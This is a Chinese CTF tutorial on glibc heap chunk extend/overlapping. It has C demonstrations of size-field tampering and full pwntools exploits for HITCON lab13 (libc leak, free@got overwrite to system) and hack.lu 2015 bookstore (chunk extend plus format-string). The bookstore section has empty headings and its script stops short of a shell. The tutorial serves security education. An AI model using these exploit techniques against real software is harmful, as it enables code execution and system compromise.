# Chunk Extend and Overlapping

## 介绍

利用所需要的时机和条件：

- 程序中存在基于堆的漏洞
- 漏洞可以控制 chunk header中的数据

### Chunk Extend/Shrink

一般来说，这种技术并不能直接控制程序的执行流程，但是可以控制 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。

此外通过 extend 可以实现 chunk overlapping，通过 overlapping 可以控制 chunk 的 fd/bk 指针从而可以实现 fastbin attack 等利用

## 原理

chunk extend 技术能够产生的原因在于 ptmalloc 在对堆 chunk 进行操作时使用的各种宏。

ptmalloc中，获取chunk 块大小的操作如下：

```c++
/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask(p) & ~(SIZE_BITS))

/* Like chunksize, but do not mask SIZE_BITS.  */
#define chunksize_nomask(p) ((p)->mchunk_size)
```

一种是直接获取chunk的大小，不忽略掩码部分，另一种是忽略掩码部分。
在ptmalloc中获取下一个chunk的地址操作如下：

```c++
/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr)(((char *) (p)) + chunksize(p)))
```

即使用当前块指针加上当前块大小。
ptmalloc中获取前一个chunk信息的操作如下：

```c++
/* Size of the chunk below P.  Only valid if prev_inuse (P).  */
#define prev_size(p) ((p)->mchunk_prev_size)

/* Ptr to previous physical malloc_chunk.  Only valid if prev_inuse (P).  */
#define prev_chunk(p) ((mchunkptr)(((char *) (p)) - prev_size(p)))
```

即通过 malloc_chunk->prev_size 获取前一块的大小，然后使用当前chunk地址减去所得大小。
ptmalloc判断当前chunk是否是使用状态的操作如下：

```c++
#define inuse(p) ((((mchunkptr)(((char *) (p)) + chunksize(p)))->mchunk_size) & PREV_INUSE)
```

即查看下一chunk的prev_inuse域，而下一块的地址是根据当前chunk的size计算出来的。
通过上面几个宏可以看出，ptmalloc 通过 chunk header 的数据判断 chunk 的使用情况和对 chunk 的前后块进行定位。简而言之，chunk extend 就是通过控制 size 和 pre_size 域来实现跨越块操作从而导致 overlapping 的。

## 基本示例1 对 inuse 的 fastbin 进行extend

通过第一个块的大小控制第二块的内容（64位下偏移为8，32位为4）

```c++
int main(void)
{
    void *ptr,*ptr1;

    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk

    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域

    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```

两个malloc语句执行只会，堆的内存如下：



之后把chunk1的size域修改为0x41，0x41是因为 chunk的size 域包含了用户控制大小和header的大小。



执行free后，可以看到 chunk2 和chunk1 合成一共大小为 0x40的chunk，一起释放了



之后通过malloc(0x30)得到chunk1+chunk2的块，此时可以直接控制chunk2的内容，这种状态也称为overlapping chunk



## 基本示例2 对 inuse 的 smallbin 进行 extend

处于 fastbin 范围内的chunk释放后会被置入 fastbin 链表，而不处于这个范围的chunk被释放后会被置于 unsorted bin链表中。

```c++
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个 0x80 的chunk1，fastbin的默认最大大小是0x70
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并

    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);
    ptr1=malloc(0xa0);
}
```

因为分配的size不处于fastbin的范围，因此在释放时如果与 top chunk相连会导致和top chunk合并，所以需要额外分配一个chunk，把释放的块与 top chunk隔开
篡改前：



篡改后：



释放之后，chunk1和chunk2的内容合并一起置入unsorted bin



再次分配时就取回chunk1和chunk2的空间，此时可以控制chunk2的内容



## 基本示例3 对 free 的smallbin 进行 extend

先释放 chunk1然后再修改处于 unsorted bin中的 chunk1的size域

```c++
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2

    free(ptr);//首先进行释放，使得chunk1进入unsorted bin

    *(int *)((int)ptr-0x8)=0xb1;
    ptr1=malloc(0xa0);
}
```

malloc之后



释放chunk1使它进入 unsorted bin



接着篡改size域



此时再分配之后就可以得到 chunk1+chunk2的堆块，从而控制chunk2的内容



## 基本示例4 通过 extend 后向 overlapping

```c++
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x10);//分配第1个 0x10 的chunk1
    malloc(0x10); //分配第2个 0x10 的chunk2
    malloc(0x10); //分配第3个 0x10 的chunk3
    malloc(0x10); //分配第4个 0x10 的chunk4
    *(int *)((int)ptr-0x8)=0x61;
    free(ptr);
    ptr1=malloc(0x50);
}
```

在 malloc(0x50) 对 extend 区域重新占位后，其中 0x10 的 fastbin 块依然可以正常的分配和释放，此时已经构成 overlapping，通过对 overlapping 的进行操作可以实现 fastbin attack。

## 基本示例5 通过 extend 前向 overlapping

通过修改 pre_inuse和prev_szie域实现合并前面的块

```c++
int main(void)
{
    void *ptr1,*ptr2,*ptr3,*ptr4;
    ptr1=malloc(128);//smallbin1
    ptr2=malloc(0x10);//fastbin1
    ptr3=malloc(0x10);//fastbin2
    ptr4=malloc(128);//smallbin2
    malloc(0x10);//防止与top合并
    free(ptr1);
    *(int *)((long long)ptr4-0x8)=0x90;//修改pre_inuse域
    *(int *)((long long)ptr4-0x10)=0xd0;//修改pre_size域
    free(ptr4);//unlink进行前向extend
    malloc(0x150);//占位块
}
```

前向 extend 利用了 smallbin 的 unlink 机制，通过修改 pre_size 域可以跨越多个 chunk 进行合并实现 overlapping。

## HITCON Trainging lab13

### 基本功能

自定义堆分配器，每个堆有两个成员：大小与内容的指针

主要功能：

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会存在 off by one 的漏洞。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

1. 利用 off by one 漏洞覆盖下一个 chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

大致过程：
创建两个堆，通过off-by-one修改下一个堆块的大小，然后将其释放，使chunk2的size和conten进入fastbin，然后再申请一个较大的堆，由于篡改了chunk2记录size的堆块大小，所以再次申请时，新的chunk2的记录size和content的堆块会对调，进而通过输入溢出修改新的chunk2记录其content的地址，从而泄露 free@got 的地址，进而泄露libc

### exploit

```python
    from pwn import *
    context(arch='amd64',os='linux')
    context.log_level = "DEBUG"

    p = process('./heapcreator')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)


    def Create(size,content):
        p.recvuntil("Your choice :")
        p.send('1')
        p.recvuntil("Size of Heap : ")
        p.send(str(size))
        p.recvuntil("Content of heap:")
        p.send(content)

    def Edit(index,content):
        p.recvuntil("Your choice :")
        p.send('2')
        p.recvuntil("Index :")
        p.send(str(index))
        p.recvuntil("Content of heap : ")
        p.send(content)

    def Show(index):
        p.recvuntil("Your choice :")
        p.send('3')
        p.recvuntil("Index :")
        p.send(str(index))
        p.recvuntil("Size : ")
        size = int(p.recvuntil('\n',drop=True))
        p.recvuntil("Content : ")
        content = p.recvuntil('\n',drop=True)
        return size,content

    def Delete(index):
        p.recvuntil("Your choice :")
        p.send('4')
        p.recvuntil('Index :')
        p.send(str(index))

    def Exit():
        p.recvuntil("Your choice :")
        p.send('5')

    def debug():
        gdb.attach(p)
        pause()

    free_got = ELF('./heapcreator',checksec=False).got['free']
    Create(0x18,'AAAA')
    Create(0x18,'BBBB')
    # 0x182a000:    0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0x182a010:    0x0000000000000018  0x000000000182a030 <== ponit to chunk1's size and content
    # 0x182a020:    0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0x182a030:    0x0000000041414141  0x0000000000000000
    # 0x182a040:    0x0000000000000000  0x0000000000000021 <== chunk2's strcut
    # 0x182a050:    0x0000000000000018  0x000000000182a070
    # 0x182a060:    0x0000000000000000  0x0000000000000021 <== chunk2's content
    # 0x182a070:    0x0000000042424242  0x0000000000000000

    # debug()
    Edit(0, '/bin/sh\x00'+"a"*0x10+"\x41")
    # 0xb5f000: 0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0xb5f010: 0x0000000000000018  0x0000000000b5f030 <== ponit to chunk1's size and content
    # 0xb5f020: 0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0xb5f030: 0x0068732f6e69622f  0x6161616161616161
    # 0xb5f040: 0x6161616161616161  0x0000000000000041 <== chunk2's strcut's fake size
    # 0xb5f050: 0x0000000000000018  0x0000000000b5f070 <== point to chunk2's size and content
    # 0xb5f060: 0x0000000000000000  0x0000000000000021 <== chunk2's content
    # 0xb5f070: 0x0000000042424242  0x0000000000000000

    # overwrite heap 2's size to 0x41

    # debug()
    Delete(1)
    # debug()
    # fastbins
    # 0x20: 0x12b6060 <== chunk2's content
    # 0x30: 0x0
    # 0x40: 0x12b6040 <== chunk2's size
    # 0x50: 0x0
    # 0x60: 0x0
    # 0x70: 0x0
    # 0x80: 0x0
    # Create(0x30,'aaaa')
    # 0x925000: 0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0x925010: 0x0000000000000018  0x0000000000925030 <== ponit to chunk1's size and content
    # 0x925020: 0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0x925030: 0x0068732f6e69622f  0x6161616161616161
    # 0x925040: 0x6161616161616161  0x0000000000000041 <== new chunk2's content
    # 0x925050: 0x0000000061616161  0x0000000000925070
    # 0x925060: 0x0000000000000000  0x0000000000000021 <== new chunk2's struct
    # 0x925070: 0x0000000000000030  0x0000000000925050 <== point to new chunk2's size and content

    # trigger heap 2's size to fastbin 0x40
    # heap 2's content to fastbin 0x20

    Create(0x30,p64(0)*4+p64(0x30)+p64(free_got))
    # new heap 2's struct will point to old heap 2's content, size 0x20
    # new heap 2's content will point to old heap 2's strcut, size 0x30
    # that is to say we can overwrite new heap 2's struct
    # here we overwrite its heap content pointer to free@got(when we print, printf will print the loacation which free@got point to)
    size,content=Show(1)
    # 0x785040: 0x6161616161616161  0x0000000000000041 <== new chunk2's content
    # 0x785050: 0x0000000000000000  0x0000000000000000
    # 0x785060: 0x0000000000000000  0x0000000000000000 <== new chunk2's size which was overwrite right now
    # 0x785070: 0x0000000000000030  0x0000000000602018 <== point to new shcunk2's size and content

    # leak address
    log.success('size = %d, content = %#x'%(size,u64(content.ljust(8,'\x00'))))
    # debug()

    free_addr = u64(content.ljust(8,'\x00'))
    libc_base = free_addr - libc.sym['free']
    system_addr = libc_base + libc.sym['system']
    log.info('system_addr = %#x',system_addr)

    # overwrite free@got with system addr
    Edit(1, p64(system_addr))
    # trigger system("/bin/sh")
    # debug()
    Delete(0)
    p.interactive()
```

## 2015 hacklu bookstore

### 功能

### 利用思路

### Exploit

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./books"
book = ELF("./books")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./books")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def edit(order, name):
    p.recvuntil('5: Submit\n')
    p.sendline(str(order))
    p.recvuntil(' order:\n')
    p.sendline(name)


def delete(order):
    p.recvuntil('5: Submit\n')
    p.sendline(str(order + 2))


def submit(payload):
    p.recvuntil('5: Submit\n')
    p.sendline('5' + payload)
    p.recvuntil('Order 1: ')
    p.recvuntil('Order 2: Order 1: ')


def fmt(fmtstr, argv):
    log.info('step 1. chunk extend.')
    payload = fmtstr  # fmtstr
    payload = payload.ljust(0x80, 'f')
    payload += p64(0)  # order 2's prev_size
    payload += p64(0x151)  # order 2's size --> fake large
    payload += '\x00' * 0x140  # padding for fake chunk
    payload += p64(0x150)  # fake chunk's next chunk's prev_size
    payload += p64(
        0x21
    )  # fake chunk's next chunk's size, bypass the check: !prev_inuse(nextchunk)
    payload += '\x00' * 0x10  # padding for fake chunk's next chunk
    payload += p64(0x20) + p64(
        0x21)  # bypass the check: in order not to consolidate
    edit(1, payload)  # modify order 2's chunk size to 0x140
    gdb.attach(p)
    delete(2)  # now, unsorted bin\'s head chunk size 0x140.

    log.info('step 2. format vulnerability')
    # when submit, the overall order content is :
    # Order 1: order1
    # Order 2: Order1: order1
    # try to construct format parameter too
    payload = 'FFFFFFF' + argv
    submit(payload)
    p.recvuntil('2: Order 1: ')


def exp():
    log.info('leak libc base')
    fini_array0 = 0x6011B8  # old: 0x400830
    main_addr = 0x400A39
    # make fini_array0 point to main
    # 13 for " 2: Order 1: "
    # 14 for "%31$p"
    padding = 0x0a39 - 13 - 14
    print hex(padding)
    fmtstr = "%31$p" + "%{}x".format(padding) + "%13$hn"
    fmt(fmtstr, p64(0x6011B8))
    libc_start_main_addr = int(p.recv(14), 16) - 240
    libc_base = libc_start_main_addr - libc.symbols['__libc_start_main']
    log.success('libc base: ' + hex(libc_base))
    one_gadget_addr = libc_base + 0x45216
    log.success('one gadget addr: ' + hex(one_gadget_addr))

    p.interactive()


if __name__ == "__main__":
    exp()
```
